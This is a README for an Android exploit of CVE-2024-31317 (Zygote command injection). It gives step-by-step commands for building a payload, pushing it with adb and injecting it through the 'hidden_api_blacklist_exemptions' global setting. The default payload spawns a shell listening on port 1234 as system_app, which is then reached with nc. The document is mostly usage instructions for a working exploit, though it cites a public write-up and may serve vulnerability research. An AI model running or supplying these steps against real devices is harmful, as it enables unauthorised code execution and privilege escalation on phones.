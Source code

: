 # Zygote Injection (CVE-2024-31317)

This is an exploit for CVE-2024-31317. It allows passing arbitrary commands to the zygote process.
This effectively allows running as any other app or system server under any selinux policy we want.
The only restriction is zygote does not luanch processess as root.

This exploit is tested on android 12 ingots2 image.

Based on: https://rtx.meta.security/exploitation/2024/06/03/Android-Zygote-injection.html

## Using Exploit

Adjust the arguments you want to send to zygote in `payload.py` in the `args` variable.

Then run:
```sh
python payload.py
```

To generate a file called payload which contains a settings value which will cause command injection.


Use adb to push the payload to the device:
```sh
adb push payload /data/local/tmp
```

Then trigger the command injection exploit:
```sh
settings put global hidden_api_blacklist_exemptions "$(cat /data/local/tmp/payload)"                                                                                                               
```


The default arguments spawn a shell listening on port 1234 running as a `system_app` uid and selinux context.

Connect to the shell using the command:
```sh
nc localhost 1234
```
